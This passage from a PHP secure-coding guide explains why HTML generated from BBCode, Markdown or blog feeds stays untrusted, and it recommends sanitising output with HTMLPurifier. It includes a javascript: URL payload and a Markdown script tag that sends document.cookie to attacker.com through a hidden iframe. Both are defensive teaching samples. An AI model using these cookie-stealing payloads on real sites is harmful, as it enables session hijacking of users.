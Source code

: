 

The act of generating HTML from such inputs (unless we received HTML to start with!) occurs on the server. That implies a trustworthy operation which is a common mistake to make. The HTML that results from such generators was still “determined” by an untrusted input. We can’t assume it’s safe. This is simply more obvious with a blog feed since its entries are already valid HTML.



Let’s take the following BBCode snippet:



[url=javascript:alert(‘I can haz Cookie?n’+document.cookie)]Free Bitcoins Here![/url]

BBCode does limit the allowed HTML by design but it doesn’t mandate, for example, using HTTP URLs and most generators won’t notice this creeping through.



As another example, take the following selection of Markdown:



I am a Markdown paragraph.<script>document.write(‘<iframe src=”http://attacker.com?cookie=‘ + document.cookie.escape() + ‘” height=0 width=0 />’);</script>



There’s no need to panic. I swear I am just plain text!



Markdown is a popular alternative to writing HTML but it also allows authors to mix HTML into Markdown. It’s a perfectly valid Markdown feature and a Markdown renderer won’t care whether there is an XSS payload included.



After driving home this point, the course of action needed is to HTML sanitise whatever we are going to include unescaped in web application output after all generation and other operations have been completed. No exceptions. It’s untrusted input until we’ve sanitised it outselves.



HTML Sanitisation is a laborious process of parsing the input HTML and applying a whitelist of allowed elements, attributes and other values. It’s not for the faint of heart, extremely easy to get wrong, and PHP suffers from a long line of insecure libraries which claim to do it properly. Do use a well established and reputable solution instead of writing one yourself.



The only library in PHP known to offer safe HTML Sanitisation is HTMLPurifier. It’s actively maintained, heavily peer reviewed and I strongly recommend it. Using HTMLPurifier is relatively simple once you have some idea of the HTML markup to allow:



// Basic setup without a cache

$config = HTMLPurifier_Config::createDefault();

$config->set('Core', 'Encoding', 'UTF-8');

$config->set('HTML', 'Doctype', 'HTML 4.01 Transitional');

// Create the whitelist

$config->set('HTML.Allowed', 'p,b,a[href],i'); // basic formatting and links

$sanitiser = new HTMLPurifier($config);

$output = $sanitiser->purify($untrustedHtml);